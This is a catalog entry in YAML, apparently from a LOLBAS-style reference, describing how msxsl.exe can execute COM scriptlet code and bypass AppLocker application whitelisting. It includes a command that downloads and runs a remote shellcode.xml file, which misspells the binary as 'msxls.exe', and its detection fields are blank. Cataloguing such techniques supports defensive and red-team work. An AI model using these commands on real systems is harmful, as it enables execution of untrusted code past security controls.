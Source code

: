 ```yaml
---
name: msxsl.exe
description: Command line utility used to perform XSL transformations.
functions:
  execute:
    - description: Run COM Scriptlet code within the script.xsl file (local).
      code: msxsl.exe customers.xml script.xsl
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Local execution of script stored in XSL file.
    - description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
      code: msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Local execution of remote script stored in XSL script stored as an XML file.
  awl bypass:
    - description: Run COM Scriptlet code within the script.xsl file (local).
      code: msxsl.exe customers.xml script.xsl
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Local execution of script stored in XSL file.
    - description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
      code: msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Local execution of remote script stored in XSL script stored as an XML file.
resources:
    - resource: https://twitter.com/subTee/status/877616321747271680
    - resource: https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker
fullpath:
    - path: 
detection:
  - IOC: 
acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

